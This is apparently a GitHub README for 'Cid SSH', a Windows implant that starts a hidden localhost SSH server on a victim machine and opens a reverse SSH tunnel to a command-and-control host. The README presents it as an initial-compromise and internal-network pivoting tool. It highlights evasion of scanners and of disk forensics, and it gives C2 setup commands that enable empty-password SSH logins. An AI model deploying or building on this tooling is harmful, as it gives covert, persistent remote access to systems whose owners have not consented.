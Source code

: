 # Cid SSH
![alt text](http://equestrianstatue.org/wp-content/uploads/2016/04/Spain-Burgos-El-Cid-4-525x394.jpg)

This is a statically compiled tool (no dependencies needed) that can be used to create a SSH server and as SSH client. It will firstly, spin up an SSH server (listening in `localhost` and by default in port 2222), create certificates for it and finally create a reverse SSH tunnel with the C2. Due to the SSH server listens at `localhost`, automated scanners won't be able to detect it. 

Windows systems lack of a proper TTY but thanks to [this](https://blogs.msdn.microsoft.com/commandline/2018/08/02/windows-command-line-introducing-the-windows-pseudo-console-conpty/) we can in recent Windows versions get a fully functional TTY. In the case that the target system does not support `CreatePseudoConsole` it will downgrade to a simple and not interactive shell.

This tool can be used as a fast initial compromise tool that can be used not only as a shell but also to browse the internal network of the victim. 

## Setup instructions
### C2 server
We need to properly configure the SSH server running at the C2 so we don't get hacked.

Run all of these commands:

```
sudo useradd anonymous
echo anonymous:U6aMy0wojraho | sudo chpasswd -e
sudo usermod -s /bin/false anonymous
```

Allow blank passwords for SSH sessions of anonymous in `/etc/ssh/sshd_config`:
```PermitEmptyPasswords yes```

Restart sshd:
```systemctl restart ssh```

### Client
You can just use the prebuilt binaries that are in [Release](https://github.com/illera88/Cid-SSH/releases/tag/v1.0). 

If you want to compile from source keep reading:
Compiling the client is somehow tricky because `libssh` (the library we use to handle SSH communications) does not support creating a SSH server using certificates from memory but they need to exist in disk. Since we are 3l373 hackers we don't want to drop any file to disk so I modified the `libssh` code. 

You can find the modified code [here](https://github.com/illera88/libssh_mod) or getting the prebuilt libraries [here](https://github.com/illera88/PrecompiledLibraries/tree/master/windows/libssh_mod)

To compile it just make sure you add the includes and libraries for:
- libssh_mod 
- zlib
- openssl

You can find all of them already prebuilt for Windows [here](https://github.com/illera88/PrecompiledLibraries/).



## Using it
It's very easy: 

```
Cid-SSH.exe 192.168.15.135
```
